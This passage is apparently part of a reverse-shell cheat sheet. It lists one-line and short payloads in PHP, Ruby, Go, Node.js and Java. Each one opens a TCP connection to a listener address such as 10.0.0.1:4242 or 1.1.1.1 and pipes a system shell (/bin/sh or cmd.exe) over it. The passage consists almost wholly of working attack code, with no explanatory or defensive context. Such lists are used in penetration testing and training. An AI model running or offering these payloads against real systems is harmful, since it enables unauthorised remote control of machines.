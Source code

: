 ```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

#### ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

#### lambda Node.js

```js
vim shell.js

(function(){
    var net=require("net"),
    cp = require("child_process"),
    sh =  cp.spawn("/bin/sh",[]);
    var client = new net.Socket();
    client.connect(8888,"1.1.1.1",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
```bash
node shell.js
```

#### java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- **Java Alternative 1**
    ```java
    String host="127.0.0.1";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

